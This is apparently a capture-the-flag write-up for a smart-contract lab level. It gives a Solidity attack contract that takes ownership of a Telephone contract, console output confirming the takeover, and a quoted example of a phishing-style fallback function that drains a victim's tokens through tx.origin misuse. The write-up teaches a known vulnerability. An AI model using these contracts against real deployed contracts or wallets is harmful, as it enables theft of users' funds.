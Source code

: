 ```javascript
contract Attack {

  address public attacker;
  Telephone object;

  constructor() public {
    attacker = msg.sender;
    object = Telephone(0xe927cee2e1A0006Eb230e40C505FD09eA1AebD1b);
  }

  function go() public {
    object.changeOwner(attacker);
  }
}
```

```javascript
// we are not owner
> await contract.owner() == player
false

// get contract address
> contract.address
"0xa0783bd88924164fecb1aa02858effe62c081e4f"

// we are owner !
> await contract.owner() == player
true
```

> While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).
>
> An example of a possible attack is outlined below.
>
> 1. Use `tx.origin` to determine whose tokens to transfer, e.g.
>
> ```
> function transfer(address _to, uint _value) {
>   tokens[tx.origin] -= _value;
>   tokens[_to] += _value;
> }
> ```
>
> 1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
>
> ```
> function () payable {
>   token.transfer(attackerAddress, 10000);
> }
> ```
>
> 1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
